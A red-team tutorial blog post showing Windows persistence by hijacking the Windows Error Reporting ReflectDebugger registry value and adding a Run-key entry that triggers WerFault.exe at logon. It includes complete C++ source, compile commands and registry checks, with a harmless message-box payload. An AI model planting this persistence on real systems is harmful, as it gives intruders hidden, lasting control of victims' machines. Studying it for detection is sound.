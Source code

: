 ```yaml
---
title:  "Malware development: persistence - part 18. Windows Error Reporting. Simple C++ example."
date:   2022-11-02 03:00:00 +0300
header:
  teaser: "/assets/images/78/2022-11-02_05-28.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/78/2022-11-02_05-28.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence trick: via `WerFault.exe`.     

### WerFault.exe

While studying the behavior of Windows Error Reporting, I came across an interesting Registry path:     

`HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs`

If we run command `WerFault.exe -pr <value>` it is read `HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path_value>`. This command run `WerFault.exe` on mode which is called *"reflective debugger"* and it is very interesting. For example run `WerFault.exe -pr 1` and check it via Sysinternals Process Monitor:     

![pers](/assets/images/78/2022-11-02_04-48.png){:class="img-responsive"}    

![pers](/assets/images/78/2022-11-02_04-49.png){:class="img-responsive"}    

Add another filter:    

![pers](/assets/images/78/2022-11-02_04-51.png){:class="img-responsive"}    

As a result, we have a loophole for hijacking this value:     

![pers](/assets/images/78/2022-11-02_04-52.png){:class="img-responsive"}    

So, what is the trick? We can replace registry value `HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger` with our evil application, because `WerFault.exe` not only read this value but also run it. And of course we can use it for persistence.    

### practical example

For simplicity, as usually, my "evil" application is just `meow-meow` messagbox (`hack.cpp`):     

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

And then, create script which create registry key value with my "evil" app:    

```cpp
int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
}
```

Also, I used [one of the classic trick](/tutorial/2022/04/20/malware-pers-1.html) for persistence:     

```cpp
// startup
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, strlen(wf));
  RegCloseKey(hkey);
}
```

As a result, the final source code looks something like this (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistense via WerFault.exe
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/02/malware-pers-18.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  // startup
  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, strlen(wf));
    RegCloseKey(hkey);
  }
  return 0;
}
```

### demo

Let's go to see everything in action. Compile our "evil" app:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/78/2022-11-02_04-54.png){:class="img-responsive"}    

and persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/78/2022-11-02_04-55.png){:class="img-responsive"}    

Before run everything, first of all, check registry key and value:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\" /s
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger" /s
```

Run "malware" for checking correctness:     

```powershell
.\hack.exe
```

![pers](/assets/images/78/2022-11-02_04-56.png){:class="img-responsive"}    

Also, check registry keys which used for persistence logic:     

```powershell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/78/2022-11-02_04-58.png){:class="img-responsive"}    

Then, run `pers.exe`:    

```powershell
.\pers.exe
```

and check Windows Error Reporting registry key again:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
```

![pers](/assets/images/78/2022-11-02_05-08.png){:class="img-responsive"}    

As you can see, key value is edited and we can check correctness via running:    

```powershell
WerFault.exe -pr 1
```

![pers](/assets/images/78/2022-11-02_05-10.png){:class="img-responsive"}    

Then, logout and login:    

![pers](/assets/images/78/2022-11-02_05-13.png){:class="img-responsive"}    

and after a few seconds our `meow-meow` messagebox is popped-up as expected:    

![pers](/assets/images/78/2022-11-02_05-14.png){:class="img-responsive"}    

You can check the properties of `hack.exe` via Process Hacker 2:     

![pers](/assets/images/78/2022-11-02_05-15.png){:class="img-responsive"}    

Also, pay attention that admin privileges required for hijacking Windows Error Reporting, but for persistence we use low-level privileges:     

```powershell
Remove-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" -Name "ReflectDebugger"
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "meow"
```

![pers](/assets/images/78/2022-11-02_05-17.png){:class="img-responsive"}    

![pers](/assets/images/78/2022-11-02_05-22.png){:class="img-responsive"}    

![pers](/assets/images/78/2022-11-02_05-22_1.png){:class="img-responsive"}    

Which can you notice if you decide to "return everything back to its place".    

So, as you can see everything is worked perfectly! =^..^=

> The next one was supposed to be 17, but it will come out together with the third part about the theft of tokens. I couldn't understand for 10 minutes why it doesn't work for me :)    

![pers](/assets/images/78/2022-11-02_05-06.png){:class="img-responsive"}    

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[MSDN Windows Error Reporting](https://learn.microsoft.com/en-us/windows/win32/wer/windows-error-reporting)       
[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1]((/tutorial/2022/04/20/malware-pers-1.html))       
[source code in github](https://github.com/cocomelonc/2022-11-02-malware-pers-18)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
